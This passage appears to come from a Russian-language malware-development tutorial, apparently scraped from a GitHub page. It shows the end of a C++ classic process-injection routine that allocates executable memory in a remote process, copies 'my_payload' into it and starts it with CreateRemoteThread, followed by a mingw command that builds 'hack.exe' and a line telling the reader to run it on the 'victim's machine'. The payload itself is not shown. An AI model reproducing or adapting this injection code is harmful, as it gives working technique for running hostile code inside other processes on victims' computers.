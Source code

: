 ```cpp
    // allocate memory buffer for remote process
    rb = VirtualAllocEx(ph, NULL, sizeof(my_payload), 
    (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);

    // "copy" data between processes
    WriteProcessMemory(ph, rb, my_payload, 
    sizeof(my_payload), NULL);

    // our process start new thread
    rt = CreateRemoteThread(ph, NULL, 0, 
    (LPTHREAD_START_ROUTINE)rb, 
    NULL, 0, NULL);
    CloseHandle(ph);
    return 0;
  }
}
```

Давайте скомпилируем:   
```bash
x86_64-w64-mingw32-g++ hack.cpp -o hack.exe -mconsole \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fdata-sections \
-Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

![av 2](./images/34/2021-12-26_16-41.png){width="80%"}    

И запустим его на машине жертвы (`Windows 10 x64`):   
